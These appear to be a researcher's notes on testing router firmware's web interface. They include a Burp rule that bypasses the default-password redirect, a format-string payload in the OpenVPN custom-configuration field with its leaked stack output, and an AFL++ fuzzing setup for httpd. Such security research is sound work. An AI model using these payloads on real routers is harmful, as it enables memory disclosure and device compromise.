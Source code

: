 
3. Match + Replace rule in burp
Lastly, some DOM crap happens which redirects you to the change password page by default, easy to fix, just make a burp match/replace rule for:
`var notice_pw_is_default = '1';` replaced to `var notice_pw_is_default = '0';`


### format string - Advanced_VPN_OpenVPN.asp

Sending this within the Custom Configuration:
```
push "AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p"
push "%4881$p"
```
results in this in the syslog:
```
# cat /etc/openvpn/server1/config.ovpn
...
# Custom Configuration
push "AAAA0x43843c000xffa290800xffa290840xffa29088(nil)0xf7546ab8(nil)(nil)(nil)0xffa290ac(nil)0xf7546ab80x10xffa290ac0x5f6e70760x767265730x5f317265(nil)"
push "(nil)"
```

stack to 4881 is mostly null, 4882 first values I noticed

```
# Custom Configuration
push "AAAA0x43843c000xffa290800xffa290840xffa29088(nil)0xf7546ab8(nil)(nil)(nil)0xffa290ac(nil)0xf7546ab80x10xffa290ac0x5f6e70760x767265730x5f317265(nil)"
push "0x4c"
```







### AFL -> httpd

Used afl++ in qemu mode to begin fuzzing the httpd bin using a few example requests and a dictionary file from: https://github.com/antonio-morales/Apache-HTTP-Fuzzing

install AFLplusplus: https://aflplus.plus/building/

Compile for QEMU with arm support:

`~/AFLplusplus/qemu_mode$ CPU_TARGET=arm ./build_qemu_support.sh`

Using mime_handlers and httpd.c and httpd.h I created a small dictionary which contains the contents of /www/, common headers, specific headers and anything else interesting, based off of the dict mentioned above

Then:

`/fs$ QEMU_LD_PREFIX=/home/tester/amng-build/release/src-rt-5.02axhnd/targets/94908HND/fs/ /home/tester/AFLplusplus/afl-fuzz -Q -i /home/tester/afl-in/ -o /home/tester/afl-out/ -x /home/tester/http.dict -- usr/sbin/httpd @@`
